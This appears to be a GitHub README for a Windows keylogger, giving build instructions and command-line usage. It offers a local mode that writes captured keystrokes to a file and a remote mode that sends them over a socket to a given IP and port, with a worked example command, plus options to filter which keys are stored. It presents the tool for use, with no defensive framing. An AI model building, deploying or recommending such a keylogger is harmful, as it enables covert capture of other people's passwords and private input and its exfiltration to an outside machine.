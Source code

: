 BUILD AND RUN FOR WINDOWS ONLY

# Installation

run command make

# Dependencies

[MinGW](http://www.mingw.org) for g++ and command make

# Usage

This program propose 2 types of keylogger

##[REQUIERED] Parameters : Please, choose one of them

        -l | --local : local keylogger, store data into file on this computer, require 1 argument (destination path)
                Example : ./bin/main.exe -l D:\file.txt

        -r | --remote : remote keylogger, send data via socket, require 2 arguments (ip, port)
                Example : ./bin/main.exe -r 192.168.1.16 7777

##[OPTIONAL] Options

        -c | --no_click : don't store click keys (based on ascii)
                Example : ./bin/main.exe ... -c

        -a | --alphabet_only : Store alphabet only, A-z (based on ascii)
                Example : ./bin/main.exe ... -a

        -C | --store_character : Default store is int value, use this option if you want to store with character
                Example : ./bin/main.exe ... -C

        -h | --help : print this help
                Example : ./bin/main.exe -h

